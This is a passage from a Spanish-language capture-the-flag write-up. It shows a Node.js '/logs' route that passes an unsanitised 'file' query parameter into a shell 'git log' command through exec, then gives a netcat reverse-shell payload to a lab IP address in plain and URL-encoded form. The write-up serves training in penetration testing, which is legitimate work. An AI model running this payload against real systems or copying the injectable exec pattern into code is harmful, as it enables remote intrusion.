 Perfecto, el sistema nos reconoce como administrador. Vamos a analizar otro JavaScript.
<br/>
Si nos fijamos en esta parte, vemos que la ruta **`/logs`** es vulnerable a [Remote Code Execution](https://beaglesecurity.com/blog/vulnerability/remote-code-execution.html):

**`private.js`**
```javascript
...[snip]...
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
...[snip]...
```

## Fase de Explotación

Por lo tanto vamos a ganar acceso generando una shell reversa que le pasaremos al endpoint mencionado. Nuestro payload es el siguiente:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.104 9999 >/tmp/f
```

Primero vamos a "encodearlo" para evitar posibles problemas utilizando la web **https://www.urlencoder.io/**
> **NOTA:** También podrías ponerlo como base64, no hay problema, yo lo he hecho así porque quería hacerlo de otro modo distinto a lo habitual.

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.104%209999%20%3E%2Ftmp%2Ff
```
